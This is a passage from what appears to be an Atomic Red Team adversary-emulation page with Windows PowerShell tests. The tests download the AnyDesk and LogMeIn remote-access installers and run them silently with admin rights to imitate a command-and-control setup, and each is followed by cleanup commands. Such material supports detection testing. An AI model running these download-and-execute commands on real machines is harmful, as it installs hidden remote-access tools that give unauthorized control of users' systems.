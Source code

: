 **Supported Platforms:** Windows


**auto_generated_guid:** 6b8b7391-5c0a-4f8c-baee-78d8ce0ce330






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\AnyDesk.exe https://download.anydesk.com/AnyDesk.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Start-Process $file1 /S;
```

#### Cleanup Commands:
```powershell
$file1 = "C:\Users\" + $env:username + "\Desktop\AnyDesk.exe"
Remove-Item $file1 -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - LogMeIn Files Detected Test on Windows
An adversary may attempt to trick the user into downloading LogMeIn and use to establish C2. Download of LogMeIn installer will be at the destination location and ran when sucessfully executed.

**Supported Platforms:** Windows


**auto_generated_guid:** d03683ec-aae0-42f9-9b4c-534780e0f8e1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\LogMeInIgnition.msi https://secure.logmein.com/LogMeInIgnition.msi
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Start-Process -Wait $file1 /quiet;
Start-Process 'C:\Program Files (x86)\LogMeIn Ignition\LMIIgnition.exe' "/S"
```

#### Cleanup Commands:
```powershell
get-package *'LogMeIn Client'* -ErrorAction Ignore | uninstall-package 
$file1 = "C:\Users\" + $env:username + "\Desktop\LogMeInIgnition.msi"
Remove-Item $file1 -ErrorAction Ignore
```
